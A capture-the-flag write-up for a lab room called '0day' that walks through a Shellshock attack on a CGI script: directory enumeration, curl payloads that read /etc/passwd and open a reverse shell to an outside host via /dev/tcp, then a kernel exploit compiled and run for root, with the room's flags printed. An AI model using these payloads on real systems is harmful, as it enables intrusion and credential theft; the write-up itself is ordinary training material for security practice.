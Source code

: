 # 0day

------------------------------------

# Potential shellshock?

gobuster logs:

```
/cgi-bin (Status: 301)
/img (Status: 301)
/uploads (Status: 301)
/admin (Status: 301)
/css (Status: 301)
```

# Enumerating cgi-bin:

gobuster logs in cgi-bin

```
test.cgi

http://10.10.78.385/cgi-bin/test.cgi
```

# Code execution

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.78.38/cgi-bin/test.cgi
```

# Reverse shell

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.2.2.132/8888 0>&1'" http://10.10.78.38/cgi-bin/test.cgi
```


## Privesc - kernel version

```
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

```
searchsploit 3.13.0
searchsploit -m linux/local/37292.c

# upload onto victim
```

gcc fails because it find cc1, so, find cc1

```

find / 2>/dev/null | grep cc1

export PATH="$PATH:/usr/lib/gcc/x86_64-linux-gnu/4.8/"
```

```
gcc 37292.c

./a.out # get root!
```

```
# cat root.txt
THM{g00d_j0b_0day_is_Pleased}
#
# cd /home/ryan
# cat user.txt
THM{Sh3llSh0ck_r0ckz}
```